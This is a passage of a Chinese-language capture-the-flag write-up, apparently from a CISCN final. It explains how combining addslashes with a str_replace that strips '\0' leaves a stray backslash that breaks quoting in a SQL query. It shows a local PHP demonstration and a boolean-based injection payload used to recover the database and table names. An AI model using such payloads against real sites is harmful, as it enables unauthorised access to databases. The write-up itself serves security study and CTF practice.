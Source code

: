 这里`addslashes`的作用是给单引号,双引号,反斜杠前面再加一个反斜杠来转义

而10,11行这里,将`\\0`等字符替换成了空字符 两者一起使用,就产生了漏洞

例如如果输入`id=\\0`, `addslashes`会将其变成`\\\0` (这里相当于第一个`\`将第二个`\`转义为了一般字符)

然后`str_replace`又删除了`\\0`,那么id最后还剩下一个`\`

可以在本地验证一下:

```php
<?php
$id = '\\0';
$path = ' or 1=1 %23';

$id=addslashes($id); //给单双引号前面加上反斜杠
$path=addslashes($path);

$id=str_replace(array("\\0","%00","\\'","'"),"",$id);
$path=str_replace(array("\\0","%00","\\'","'"),"",$path);
$query = "select * from images where id='{$id}' or path='{$path}'";

echo $id;
echo '<br>';
echo $path;
echo '<br>';
echo $query;
?>
```

输出

```
\
or 1=1 %23
select * from images where id='\' or path=' or 1=1 %23'
```

所以当`id=\\0`,`path= or 1=1 %23`时  

`id`后面得那个反斜线将单引号转义, `id`前面得那个单引号不得不和`path`后面的单引号配对, 整个语句变成了:

`id` =  `\' or path=`

`or`

`1=1`

这种形式,也就有了通过逻辑进行注入的可能性

测试一下库名的长度

```
id=\\0&path= or (length(database())=10) %23    成功显示了图片,说明长度为1
```

爆库名: `ciscnfinal`

爆表名:`images,users`
